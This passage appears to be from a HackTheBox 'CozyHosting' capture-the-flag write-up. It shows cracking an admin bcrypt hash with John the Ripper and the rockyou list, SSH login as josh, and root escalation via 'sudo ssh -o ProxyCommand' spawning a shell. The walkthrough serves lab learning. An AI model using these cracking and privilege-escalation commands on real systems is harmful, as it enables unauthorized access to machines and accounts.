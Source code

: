 
I stored the password hash into the adminHash file and sprayed the rockyou wordlist using the JohnTheRipper tool.

```
john --wordlist=/root/Tools/SecLists/Passwords/Leaked-Databases/rockyou.txt adminHash
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
manchesterunited (?)     
1g 0:00:01:10 DONE (2024-03-02 14:10) 0.01421g/s 39.90p/s 39.90c/s 39.90C/s catcat..keyboard
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

The JohnTheRipper tool cracked the password for the admin user, which is 'manchesterunited', and I tried to login using that password for the user. The user was `josh`. I successfully logged in as a josh using the SSH protocol.

`ssh josh@cozyhosting.htb`

![josh user access](https://github.com/het-desai/hackthebox/blob/main/cozyhosting/screenshots/joshaccess.png "josh user access")

I got the Josh user access and user flag.

## Privilege Escalation

I checked the `sudo -l` commond to check which super user permission has the Josh user.

![sudo ssh access](https://github.com/het-desai/hackthebox/blob/main/cozyhosting/screenshots/sudosshaccess.png "sudo ssh access")

The above screenshot shows that I can access the ssh command as a super user.

I checked the [GTFOBins](https://gtfobins.github.io/gtfobins/ssh/#sudo) website and found that I could access the root shell by following the command.

`sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x`

![root access](https://github.com/het-desai/hackthebox/blob/main/cozyhosting/screenshots/rootaccess.png "root access")

Explanation: The above command runs as a super user (root), and before the ssh opens a session, the `-o` flag's value `ProxyCommand` starts the root shell in the current terminal.